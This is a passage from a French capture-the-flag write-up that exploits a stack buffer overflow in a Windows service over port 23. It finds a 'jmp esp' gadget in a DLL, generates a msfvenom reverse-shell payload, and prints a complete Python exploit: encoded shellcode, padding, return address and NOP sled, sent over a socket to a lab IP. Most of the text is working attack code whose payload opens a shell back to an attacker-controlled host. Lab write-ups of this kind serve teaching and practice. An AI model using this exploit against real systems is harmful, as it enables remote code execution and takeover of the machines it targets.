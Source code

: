 ```
```

Tout comme le précédent CTF du même auteur, ESP pointe sur les octets après l'adresse de retour.

On a besoin d'une adresse valide pour écraser EIP. On peut trouver un `jmp esp` dans l'exécutable mais son adresse contient un octet nul. C'est là qu'entre en jeux la DLL qui est chargée par le binaire :

```shellsession
$ python ROPgadget.py --binary /tmp/funcs_access.dll | grep "jmp esp"
0x625012d0 : jmp esp
0x625012ce : mov ebp, esp ; jmp esp
0x625012cd : push ebp ; mov ebp, esp ; jmp esp
```

On a notre adresse de retour, maintenant utilisons `msfvenom` pour générer notre shellcode sans les mauvais caractères.

```bash
msfvenom -a x86 -b '\x4d\x4f\x5f\x79\x7e\x7f\x00' -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 --format python
```

Voici l'exploit :

```python
import socket

# msfvenom -a x86 -b '\x4d\x4f\x5f\x79\x7e\x7f\x00' -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 --format python
buf =  b""
buf += b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
buf += b"\x76\x0e\x96\xa4\x58\xba\x83\xee\xfc\xe2\xf4\x6a\x4c"
buf += b"\xda\xba\x96\xa4\x38\x33\x73\x95\x98\xde\x1d\xf4\x68"
buf += b"\x31\xc4\xa8\xd3\xe8\x82\x2f\x2a\x92\x99\x13\x12\x9c"
buf += b"\xa7\x5b\xf4\x86\xf7\xd8\x5a\x96\xb6\x65\x97\xb7\x97"
buf += b"\x63\xba\x48\xc4\xf3\xd3\xe8\x86\x2f\x12\x86\x1d\xe8"
buf += b"\x49\xc2\x75\xec\x59\x6b\xc7\x2f\x01\x9a\x97\x77\xd3"
buf += b"\xf3\x8e\x47\x62\xf3\x1d\x90\xd3\xbb\x40\x95\xa7\x16"
buf += b"\x57\x6b\x55\xbb\x51\x9c\xb8\xcf\x60\xa7\x25\x42\xad"
buf += b"\xd9\x7c\xcf\x72\xfc\xd3\xe2\xb2\xa5\x8b\xdc\x1d\xa8"
buf += b"\x13\x31\xce\xb8\x59\x69\x1d\xa0\xd3\xbb\x46\x2d\x1c"
buf += b"\x9e\xb2\xff\x03\xdb\xcf\xfe\x09\x45\x76\xfb\x07\xe0"
buf += b"\x1d\xb6\xb3\x37\xcb\xcc\x6b\x88\x96\xa4\x30\xcd\xe5"
buf += b"\x96\x07\xee\xfe\xe8\x2f\x9c\x91\x5b\x8d\x02\x06\xa5"
buf += b"\x58\xba\xbf\x60\x0c\xea\xfe\x8d\xd8\xd1\x96\x5b\x8d"
buf += b"\xea\xc6\xf4\x08\xfa\xc6\xe4\x08\xd2\x7c\xab\x87\x5a"
buf += b"\x69\x71\xcf\xd0\x93\xcc\x98\x12\xae\xa5\x30\xb8\x96"
buf += b"\xb5\x04\x33\x70\xce\x48\xec\xc1\xcc\xc1\x1f\xe2\xc5"
buf += b"\xa7\x6f\x13\x64\x2c\xb6\x69\xea\x50\xcf\x7a\xcc\xa8"
buf += b"\x0f\x34\xf2\xa7\x6f\xfe\xc7\x35\xde\x96\x2d\xbb\xed"
buf += b"\xc1\xf3\x69\x4c\xfc\xb6\x01\xec\x74\x59\x3e\x7d\xd2"
buf += b"\x80\x64\xbb\x97\x29\x1c\x9e\x86\x62\x58\xfe\xc2\xf4"
buf += b"\x0e\xec\xc0\xe2\x0e\xf4\xc0\xf2\x0b\xec\xfe\xdd\x94"
buf += b"\x85\x10\x5b\x8d\x33\x76\xea\x0e\xfc\x69\x94\x30\xb2"
buf += b"\x11\xb9\x38\x45\x43\x1f\xa8\x0f\x34\xf2\x30\x1c\x03"
buf += b"\x19\xc5\x45\x43\x98\x5e\xc6\x9c\x24\xa3\x5a\xe3\xa1"
buf += b"\xe3\xfd\x85\xd6\x37\xd0\x96\xf7\xa7\x6f"

jmp_esp = b"\xd0\x12\x50\x62"

buffer = b"A"*1898 + b"BBBB" + jmp_esp + b"\x90" * 32 + buf
sock = socket.socket()
sock.connect(("192.168.56.51", 23))
sock.recv(1024)
sock.send(buffer + b"\r\n")
sock.close()
```